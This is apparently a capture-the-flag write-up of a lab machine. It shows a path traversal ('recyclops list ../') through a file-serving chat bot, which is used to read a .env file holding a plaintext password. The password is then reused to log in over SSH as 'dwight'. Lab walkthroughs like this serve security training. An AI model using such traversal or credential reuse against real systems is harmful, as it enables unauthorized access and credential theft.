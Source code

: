 ###  recyclops

Upon visiting  the registration link in the previous section and creating account, we see there is a  recyclops bot we can interact with 


These are the commands we can use with recyclops bot:

```
-   <=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
    

-   For security reasons, the access is limited to the Sales folder.
    

-   3. Files:
    
-   eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file sale/secret.xls' or just 'recyclops file test.txt'
    

-   4. List:
    
-   You can ask me to list the files
    
-   eg: 'recyclops i need directory list sale' or just 'recyclops list sale'
    

-   5. Time:
    
-   You can ask me what the time is
    
-   eg: 'recyclops what time is it?' or just 'recyclops time'
```

We can only look at `/sale` it seems, but this is escapable using `../../`

We use `recyclops list ../`

```
total 32  
drwx------ 11 dwight dwight 281 Feb 6 16:03 .  
drwxr-xr-x. 3 root root 20 Jan 14 06:50 ..  
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null  
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout  
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile  
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc  
-rwxr-xr-x 1 dwight dwight 1174 Sep 16 06:58 bot_restart.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config  
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth  
drwx------ 2 dwight dwight 44 Jul 3 2021 .gnupg  
drwx------ 8 dwight dwight 4096 Sep 16 07:57 hubot  
-rw-rw-r-- 1 dwight dwight 18 Sep 16 07:24 .hubot_history  
drwx------ 3 dwight dwight 19 Jul 3 2021 .local  
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla  
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm  
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales  
drwx------ 2 dwight dwight 6 Sep 16 08:56 .ssh  
-r-------- 1 dwight dwight 33 Feb 6 16:03 user.txt  
drwxr-xr-x 2 dwight dwight 24 Sep 16 07:09 .vim
```

We can't grab the user flag, but we can look at `bot_restart.sh`
This script tells us there is a `/home/dwight/hubot/` directory

We explore this directory and find `start_bot.sh`

```
-   <!=====Contents of file ../hubot/start_bot.sh=====>
    
-   #!/bin/bash  
    cd /home/dwight/hubot  
    source /home/dwight/hubot/.env  
    /home/dwight/hubot/bin/hubot  
    #cd -
    
-   #!/bin/bash  
    cd /home/dwight/hubot  
    source /home/dwight/hubot/.env  
    /home/dwight/hubot/bin/hubot  
    #cd -
    
-   <!=====End of file ../hubot/start_bot.sh=====>
```

This prompts me to take a look at `../hubot/.env`

```
-   <!=====Contents of file ../hubot/.env=====>
    
-   export ROCKETCHAT_URL='[http://127.0.0.1:48320](http://127.0.0.1:48320)'  
    export ROCKETCHAT_USER=recyclops  
    export ROCKETCHAT_PASSWORD=Queenofblad3s!23  
    export ROCKETCHAT_USESSL=false  
    export RESPOND_TO_DM=true  
    export RESPOND_TO_EDITED=true  
    export PORT=8000  
    export BIND_ADDRESS=127.0.0.1
    
-   export ROCKETCHAT_URL='[http://127.0.0.1:48320](http://127.0.0.1:48320)'  
    export ROCKETCHAT_USER=recyclops  
    export ROCKETCHAT_PASSWORD=Queenofblad3s!23  
    export ROCKETCHAT_USESSL=false  
    export RESPOND_TO_DM=true  
    export RESPOND_TO_EDITED=true  
    export PORT=8000  
    export BIND_ADDRESS=127.0.0.1
    
-   <!=====End of file ../hubot/.env=====>
```

Looks like we have the rocketchat pw for recyclops

It won't let me log into rocketchat with this password, but perhaps Dwight reused this password for ssh.

He did. We have ssh access with dwight now

`dwight:Queenofblad3s!23`